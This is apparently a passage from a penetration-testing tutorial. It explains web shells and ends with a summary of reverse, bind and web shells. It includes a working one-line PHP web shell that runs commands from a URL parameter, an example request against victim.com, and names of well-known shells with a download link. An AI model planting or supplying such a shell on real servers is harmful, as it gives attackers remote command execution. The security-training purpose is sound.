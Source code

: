 
## Web Shells

Web shells are scripts uploaded to web servers (PHP, ASP, JSP, CGI). They allow command execution through HTTP requests.

### Example PHP Web Shell
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

Access:  
`http://victim.com/uploads/shell.php?cmd=whoami`

### Popular Web Shells
- **p0wny-shell** – minimalistic single-file PHP web shell  
- **b374k shell** – feature-rich PHP web shell with file management  
- **c99 shell** – robust PHP web shell with extensive functionality  

More: [r57shell.net](https://www.r57shell.net/index.php)

---

## Conclusion
We learned about **Reverse Shells**, **Bind Shells**, and **Web Shells**—their use in offensive security, detection, and defense.  
- Reverse Shells: connect back to attacker  
- Bind Shells: listen for incoming connection  
- Web Shells: abuse web servers for command execution  

Understanding shells is critical for security professionals to perform penetration testing and defend systems.

---
